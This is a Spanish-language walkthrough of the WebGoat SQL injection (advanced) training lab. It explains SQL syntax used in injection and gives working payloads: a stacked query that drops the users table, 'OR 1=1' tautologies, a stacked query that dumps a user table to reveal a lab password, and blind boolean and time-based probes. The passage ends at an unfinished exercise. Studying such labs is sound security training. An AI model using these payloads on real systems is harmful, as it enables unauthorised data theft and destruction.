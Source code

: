 # A1 Injection

La sección A1 de webgoat se refiere a las inyecciones SQL que son utilizadas para hacer que la aplicación se comporte de una manera no prevista por el desarrollador.

##### URL para ingresar a webgoat
+ http://localhost:8080/WebGoat/

# SQL Injection (Advanced)

## Preámbulo
Existen diversos carácteres especiales y sentencias que se pueden utilizar en SQL:

**Comentarios:**
```sql
/* */ 	 are inline comments
-- , # 	 are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```

**Encadenamiento de comandos:**
```sql
-- ;        allows query chaining

SELECT * FROM users; DROP TABLE users;
```

**Concatenación de cadenas**
```sql
-- ',+,||	 allows string concatenation
-- Char()	 strings without quotes

SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

**Operador UNION**
Este operador se utiliza para combinar resultados de dos combinaciones SELECT. Se debe considerar lo siguiente:
+ El número de columnas en cada declaración debe ser el mismo
+ Los tipos de datos deben coincidir 
+ La sentencia `UNION ALL` permite resultados duplicados

```sql
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

**Operador JOIN**
Combinar filas de dos o más tablas, en función de una columna relacionada.
```sql
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

## Ejercicio 1 (3)

#### Obten toda la información de las tablas


```sql
'SELECT * FROM user_data WHERE last_name = ''; SELECT * FROM user_system_data ;--'
```

#### Cuando lo obtengas responde cuál es el password de Dave
![Ejercicio 1](img2/ejercicio1.jpeg)
* El password es: `passW0rD`

## Blind SQL injection (Inyección SQL a ciegas u oculto)
Este es un tipo de inyección que hace preguntas de `verdadero` o `falso` y define el resultado en función de las respuestas del servidor. Este tipo de ataque se utiliza cuando el desarrollador no muestra los mensajes tipicos de error, pero no suprime la vulnerabilidad.
+ SQL basado en contenido
+ SQL basado en tiempo

**Ejemplos:**

Suponiendo que tienes un sitio con la url `https://my-shop.com?article=4 ` puedes deducir que por detŕas corre una sentencia del siguiente estilo

```sql
SELECT * FROM articles WHERE article_id = 4
```

Podemos explotar esta vulnerabilidad ingresando `https://shop.example.com?article=4 AND 1=1` que eventualmmente se interpretará como:

```sql
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```
+ Si esto nos sigue devolviendo la misma página que cuando se usaba `https://my-shop.com?article=4 ` significa que el sitio es propenso a inyección SQL a ciegas
+ Si nos regresa un `page not found` es probable que no sea vulnerable

Podemos aprovechar la sentencia anterior mediante `https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2`. Una vez que sabemos que se puede explotar esto es solamente cuestión de creatividad y suerte de que la BD no esté correctamente configurada para localizar tablas de la BD sensibles. 

También podemos realizar una inyección basada en tiempo:
+ `article = 4; sleep(10) --`

## Ejercicio 2 (5)

Para este ejercicio encontramos un `login` por lo que podemos imaginar que la sentencia en SQL podría ser algo parecido a:


#### Haz login como Tom


